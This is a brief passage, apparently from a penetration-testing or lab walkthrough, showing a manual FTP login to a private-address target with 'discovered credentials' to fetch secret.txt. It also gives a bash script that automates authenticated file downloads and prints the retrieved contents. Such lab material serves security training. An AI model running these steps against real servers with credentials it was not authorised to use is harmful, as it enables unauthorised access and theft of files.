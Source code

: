 ## Manual FTP Interaction

### Accessing FTP with Discovered Credentials

```bash
# Connect to FTP server manually
ftp 192.168.1.100

# Login with discovered credentials
Name: sysadmin
Password: 654321

# FTP commands after successful login
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r-- 1 0 0 1234 secret.txt
226 Transfer complete

ftp> get secret.txt
local: secret.txt remote: secret.txt
200 PORT command successful
150 Opening ASCII mode data connection for secret.txt (1234 bytes)
226 Transfer complete
1234 bytes received in 0.00 secs (1.234 MB/s)

ftp> exit
```

### Automated File Download Script

```bash
#!/bin/bash

TARGET=$1
USER=$2
PASS=$3
REMOTE_FILE=$4
LOCAL_FILE=${5:-$REMOTE_FILE}

echo "[*] Downloading $REMOTE_FILE from $TARGET"

ftp -n $TARGET << EOF
user $USER $PASS
binary
get $REMOTE_FILE $LOCAL_FILE
bye
EOF

if [ -f "$LOCAL_FILE" ]; then
    echo "[+] File downloaded successfully: $LOCAL_FILE"
    echo "[*] File contents:"
    cat "$LOCAL_FILE"
else
    echo "[-] Failed to download file"
fi
```
